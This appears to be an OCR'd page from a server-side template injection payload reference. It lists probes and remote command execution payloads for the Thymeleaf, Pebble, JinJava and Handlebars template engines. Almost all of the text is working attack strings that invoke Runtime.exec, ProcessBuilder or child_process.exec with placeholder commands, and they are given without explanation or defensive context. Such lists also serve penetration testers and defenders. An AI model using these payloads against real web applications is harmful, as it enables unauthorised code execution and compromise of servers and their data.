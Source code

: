 #### Thymeleaf
```html
${7*7}
[[${7*7}]]
[(${7*7})]
${T(java.lang.Runtime).getRuntime().exec('<cmd>')}
${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("<cmd>")}
```

#### Pebble
```html
{{ someString.toUPPERCASE() }}
{% raw %}
{% set cmd = '<cmd>' %}
{% endraw %}
{% set bytes = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke(null,null).exec(cmd).inputStream.readAllBytes() %}
{{ (1).TYPE.forName('java.lang.String').constructors[0].newInstance(([bytes]).toArray()) }}
```

#### JinJava
```jinja
{{'a'.toUpperCase()}}  # Would result in 'A'
{{ request }}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("new java.lang.String('<cmd>')")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command(\"<cmd>\"); x.start()")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval("var x=new java.lang.ProcessBuilder; x.command(\"<cmd>\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())")}}
```

#### NodeJS
##### Handlebars
```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
